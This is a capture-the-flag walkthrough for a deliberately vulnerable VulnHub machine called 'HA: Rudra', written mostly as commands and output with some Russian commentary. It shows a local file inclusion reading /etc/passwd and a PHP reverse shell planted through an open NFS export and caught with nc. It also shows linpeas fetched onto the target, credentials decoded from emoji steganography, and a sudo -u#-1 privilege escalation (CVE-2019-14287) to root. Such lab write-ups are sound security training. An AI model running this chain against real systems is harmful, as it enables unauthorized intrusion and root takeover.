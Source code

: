https://www.vulnhub.com/entry/ha-rudra,386/

1)nmap -sV -sC -p- 192.168.225.147

        22/tcp open ssh
        80/tcp open http
        111/tcp open rpcbind
        2049/tcp open nfs_acl
        44147/tcp open mountd
        44479/tcp open nlockmgr
        47691/tcp open mountd
        52255/tcp open mountd

2)gobuster -w /root/Downloads/common.txt -x zip,php,txt,html,bac,mp4,docx,doc,sh,bak -e -u dir http://192.168.225.147

        http://192.168.225.147/assets
        http://192.168.225.147/img
        http://192.168.225.147/index.html
        http://192.168.225.147/index.html
        http://192.168.225.147/robots.txt

80-port

1)curl 192.168.225.147/robots.txt

    nandi.php

2)curl 192.168.225.147/nandi.php

    its empty, hmmmmm maybe you need a parameter in the request

3)curl 192.168.225.147/nandi.php?file=/etc/passwd
root:x:0:0:root:/root:/bin/bash

        ....
        rudra:x:1000:1000:rudra,,,:/home/rudra:/bin/bash
        ....
        mahakaal:x:1001:1001:,,,:/home/mahakaal:/bin/bash
        ....
        shivay:x:1002:1002:,,,:/home/shivay:/bin/bash

2049-port

1.  showmount -e 192.168.225.147

            Export list for 192.168.225.147:
            /home/shivay \*

2.  mkdir /tmp/mar  
    mount 192.168.225.147:/home/shivay /tmp/mar  
    ls -al /tmp/mar

        .bash_logout
        .bashrc
        mahadev.txt
        .profile

3.  cp /root/shell.php /tmp/mar  
    rlwrap nc -nlvp 1234  
    curl 192.168.225.147/nandi.php?file=/home/shivay/shell.php

22-port

1.  python3 -c "import pty;pty.spawn('/bin/bash');"  
    id

        uid=33(www-data) gid=33(www-data) groups=33(www-data)

2.  <on-victim-machine\>cd /tmp  
    <on-own-machine\>python3 -m http.server  
    <on-victim-machine\>wget 192.168.225.128:8000/linpeas.sh

3.  chmod +x linpeas.sh  
    ./linpeas.sh

        ....
        ═╣ MySQL connection using root/NOPASS ................. Yes

4.  mysql -uroot  
    show databases;

        ...
        mahadev
        ...

    use mahadev;  
    show tables;

        hint

    select \* from hint;

        +---------------------------+
        | check on media filesystem |
        +---------------------------+

    exit;

5.  ls -al /media

        creds
        hints

    cat /media/creds

        😴
        😬
        😥
        😭
        🐼
        😬
        🙈
        😕
        🐼
        😬
        🐵
        😊
        😀
        😻
        😥
        😓
        🐼
        😅
        😕
        😕
        😀
        🙊
        😾
        😕
        😝
        😛
        🙎
        🙎

    cat /media/hints

        https://www.hackingarticles.in/cloakify-factory-a-data-exfiltration-tool-uses-text-based-steganography/

            without noise

6.  <on-own-machine\>  
     python2 cloakifyFactory.py

            Selection: 2
            Enter filename to decloakify (e.g. /foo/bar/MyBoringList.txt): /root/test
            Save decloaked data to filename (default: 'decloaked.file'): /root/test1
            Preview cloaked file? (y/n default=n):
            Was noise added to the cloaked file? (y/n default=n):
            Enter cipher #: 20

    cat /root/test1

            mahakaal:kalbhairav

22-port

ssh mahakaal@192.168.225.147

1.  sudo -l

        (ALL, !root) /usr/bin/watch

сначала я подумала, что надо стать rudra для дальнейшего повышения привиллегий
sudo -u rudra watch -x sh -c 'reset; exec sh 1>&0 2>&0'
но это мне ничем не помогло

при запуске linpeas.sh я заметила, что предлагаются различные способы повышения привиллегий через sudo, проверим как на уязвимость этот сервис

    sudo --version
        Sudo version 1.8.21p2

Это уязвимая версия, я легко нашла в интернете способ повышения привиллегий (CVE-2019-14287)
sudo -u#-1 watch -x sh -c 'reset; exec sh 1>&0 2>&0'

    cat /root/final.txt
        ....
        !! Congrats you have finished this task !!

lfi,vulnerable_version_sudo
